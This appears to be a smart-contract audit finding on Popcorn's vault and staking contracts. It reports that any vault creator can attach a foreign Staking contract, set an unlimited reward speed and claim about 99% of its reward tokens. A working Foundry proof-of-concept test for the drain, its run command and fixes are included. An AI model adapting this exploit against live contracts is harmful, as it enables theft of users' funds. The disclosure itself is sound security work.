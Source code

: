 ## Tags

- bug
- 3 (High Risk)
- selected for report
- sponsor confirmed
- H-09

# [Attacker can steal 99% of total balance from any reward token in any Staking contract](https://github.com/code-423n4/2023-01-popcorn-findings/issues/263) 

# Lines of code

https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L108-L110
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L483-L503
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L296-L315
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L351-L360
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L377-L378
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L390-L399


# Vulnerability details

## Impact
Attacker can steal 99% of the balance of a reward token of any Staking contract in the blockchain. An attacker can do this by modifying the reward speed of the target reward token. 

So an attacker gets access to `changeRewardSpeed`, he will need to deploy a vault using the target Staking contract as its Staking contract. Since the Staking contract is now attached to the attacker's created vault, he can now successfully `changeRewardSpeed`. Now with `changeRewardSpeed`, attacker can set the `rewardSpeed` to any absurdly large amount that allows them to drain 99% of the balance (dust usually remains due to rounding issues) after some seconds (12 seconds in the PoC.) 

## Proof of Concept
This attack is made possible by the following issues:
1. Any user can deploy a Vault that uses any existing Staking contract - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L106-L108
2. As long as attacker is creator of a Vault that has the target Staking contract attached to it, attacker can call `changeStakingRewardSpeeds` to modify the rewardSpeeds of any reward tokens in the target Staking contract - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L495-L501
3. There are no checks for limits on the `rewardsPerSecond` value in `changeRewardSpeed` so attacker can set any amount they want - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L299-L314
4. `changeRewardSpeed` also uses `_calcRewardsEnd` to get the new `rewardsEndTimestamp` but that calculation is faulty and the new timestamp is always longer than it's supposed to be leading to people being able to claim more rewards than they should get - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L351-L360

Below is the PoC using a Foundry test:
```solidity
  function test__steal_rewards_from_any_staking_contract() public {
    addTemplate("Adapter", templateId, adapterImpl, true, true);
    addTemplate("Strategy", "MockStrategy", strategyImpl, false, true);
    addTemplate("Vault", "V1", vaultImpl, true, true);

    // 1. deploy regular legit vault owned by this
    address vault = deployVault();
    address staking = vaultRegistry.getVault(vault).staking;

    rewardToken.mint(staking, 1_000_000 ether);

    vm.startPrank(bob);
    asset.mint(bob, 10000 ether);
    asset.approve(vault, 10000 ether);
    IVault(vault).deposit(10000 ether, bob);
    IVault(vault).approve(staking, 10000 ether);
    IMultiRewardStaking(staking).deposit(9900 ether, bob);
    vm.stopPrank();

    vm.startPrank(alice);
    // 2. deploy attacker-owned vault using the same Staking contract as legit vault
    // alice is the attacker
    address attackerVault = controller.deployVault(
      VaultInitParams({
        asset: iAsset,
        adapter: IERC4626(address(0)),
        fees: VaultFees({
          deposit: 100,
          withdrawal: 200,
          management: 300,
          performance: 400
        }),
        feeRecipient: feeRecipient,
        owner: address(this)
      }),
      DeploymentArgs({ id: templateId, data: abi.encode(uint256(100)) }),
      DeploymentArgs({ id: 0, data: "" }),
      staking,
      "",
      VaultMetadata({
        vault: address(0),
        staking: staking,
        creator: alice,
        metadataCID: metadataCid,
        swapTokenAddresses: swapTokenAddresses,
        swapAddress: address(0x5555),
        exchange: uint256(1)
      }),
      0
    );

    asset.mint(alice, 10 ether);
    asset.approve(vault, 10 ether);
    IVault(vault).deposit(10 ether, alice);
    IVault(vault).approve(staking, 10 ether);
    IMultiRewardStaking(staking).deposit(1 ether, alice);

    address[] memory targets = new address[](1);
    targets[0] = attackerVault;
    IERC20[] memory rewardTokens = new IERC20[](1);
    rewardTokens[0] = iRewardToken;
    uint160[] memory rewardsSpeeds = new uint160[](1);
    rewardsSpeeds[0] = 990_099_990 ether;
    controller.changeStakingRewardsSpeeds(targets, rewardTokens, rewardsSpeeds);

    assertGt(rewardToken.balanceOf(staking), 1_000_000 ether);

    vm.warp(block.timestamp + 12);
    MultiRewardStaking(staking).claimRewards(alice, rewardTokens);

    assertGt(rewardToken.balanceOf(alice), 999_999 ether);
    assertLt(1 ether, rewardToken.balanceOf(staking));
    vm.stopPrank();
  }
``` 
The PoC shows that the attacker, Alice, can drain any reward token of a Staking contract deployed by a different vault owner. In this test case, Alice does the attack described above stealing a total 999,999 worth of reward tokens (99% of reward tokens owned by the Staking contract.) 
Note that the attacker can tweak the amount they stake in the contract, the reward speed they'll use, and the seconds to wait before, before claiming rewards. All of those things have an effect on the cost of the attack and how much can be drained. 

The test can be run with:
`forge test --no-match-contract 'Abstract' --match-test test__steal_rewards_from_any_staking_contract`

## Tools Used
VSCode, Foundry

## Recommended Mitigation Steps
1. Don't allow any Vault creator to use and modify just ANY Staking contract - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L106-L108
2. Add checks to limit how high `rewardsPerSecond` can be when changing rewardSpeed. Maybe make it so that it takes a minimum of 1 month (or some other configurable period) for rewards to be distributed. - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L299-L314
3. Fix calcRewardsEnd to compute the correct rewardsEndTimestamp by taking into account total accrued rewards until that point in time - https://github.com/code-423n4/2023-01-popcorn/blob/main/src/utils/MultiRewardStaking.sol#L351-L360